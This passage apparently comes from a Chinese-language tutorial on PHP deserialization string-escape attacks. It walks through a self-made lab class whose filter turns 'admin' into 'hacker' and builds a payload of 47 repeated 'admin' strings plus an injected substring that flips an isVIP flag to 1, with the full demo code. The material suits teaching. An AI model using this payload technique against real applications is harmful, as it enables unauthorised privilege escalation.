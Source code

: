 这一段程序的输出为：

```php
O:4:"user":3:{s:8:"username";s:5:"hacker";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}
```

这个时候我们把这两个程序的输出拿出来对比一下：

```php
O:4:"user":3:{s:8:"username";s:5:"admin";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}  //未过滤
O:4:"user":3:{s:8:"username";s:5:"hacker";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;} //已过滤
```

可以看到已过滤字符串中的hacker与前面的字符长度不对应了

```php
s:5:"admin";
s:5:"hacker";
```

在这个时候，对于我们，在新建对象的时候，传入的admin就是我们的可控变量

接下来明确我们的目标：将isVIP变量的值修改为1

首先我们将我们的现有子串和目标子串进行对比：

```php
";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;} //现有子串
";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;} //目标子串
```

也就是说，我们要在admin这个可控变量的位置，注入我们的目标子串。

首先计算我们需要注入的目标子串的长度：

```php
";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}
//以上字符串的长度为47
```

因为我们需要逃逸的字符串长度为47，并且admin每次过滤之后都会变成hacker，也就是说每出现一次admin，就会多1个字符。

因此我们在可控变量处，重复47遍admin，然后加上我们逃逸后的目标子串，可控变量修改如下：

```php
adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}
```

完整代码如下：

```php
<?php
class user{
    public $username;
    public $password;
    public $isVIP;

    public function __construct($u,$p){
        $this->username = $u;
        $this->password = $p;
        $this->isVIP = 0;
    }
}

function filter($s){
    return str_replace("admin","hacker",$s);
}

$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}','123456');
```